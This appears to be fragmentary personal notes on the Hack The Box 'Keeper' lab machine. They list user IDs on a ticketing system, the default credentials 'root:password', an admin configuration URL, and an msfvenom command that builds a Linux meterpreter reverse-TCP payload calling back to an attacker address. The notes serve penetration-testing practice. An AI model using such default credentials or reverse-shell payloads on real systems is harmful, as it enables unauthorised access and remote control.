

# Keeper

http://tickets.keeper.htb/rt/User/Summary.html?id=number 1 - RT System itself 2 - root 27 - lnorgaard 29 - webmaster

credentials `root:password`

<figure><figcaption></figcaption></figure>

Config file : http://tickets.keeper.htb/rt/Admin/Tools/Configuration.html

```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -o payload -f elf -e cmd/perl
```
